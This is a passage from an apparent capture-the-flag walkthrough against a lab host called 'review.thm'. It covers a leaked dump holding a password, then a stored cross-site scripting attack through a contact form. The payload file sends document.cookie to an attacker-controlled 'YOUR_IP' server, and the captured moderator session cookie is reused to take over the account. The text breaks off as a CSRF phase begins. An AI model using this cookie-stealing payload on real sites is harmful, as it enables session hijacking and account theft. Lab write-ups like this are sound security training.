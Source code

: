Visiting `http://review.thm/mail/dump.txt` revealed:

```
Finance panel: /finance.php (internal 192.x network)
Lottery panel: /lottery.php
Password: S60u}f5j
```

---

## 2. Phase 1 – XSS to Moderator

### 2.1 Craft & Host XSS Payload

Create `test.js` on your HTTP server:

```bash
cat > ~/www/test.js << 'EOF'
fetch("http://YOUR_IP/?c=" + document.cookie)
EOF
```

### 2.2 Inject Payload in Contact Form

At `http://review.thm/contact.php`, submit the contact form with the following values:

- **Name:** attacker
- **Email:** a@a.com
- **Message:**

```html
<script src="http://YOUR_IP/test.js"></script>
```

### 2.3 Capture & Use Moderator Session

Your HTTP server logs will show the moderator's cookie being exfiltrated, for example:

```
GET /?c=PHPSESSID=k73b004qihakut11s5lv4s32lc HTTP/1.1
```

Open your browser dev tools, replace your `PHPSESSID` cookie with this value, and refresh the site. You should land on the moderator view showing:

```
Flag#1: THM{xxxxxxxxxxxxxxxx}
```

and additional moderator-only menu items (e.g., Admin View, Settings, Chat).

---

## 3. Phase 2 – Moderator to Admin via CSRF

### 3.1 Inspect CSRF Token
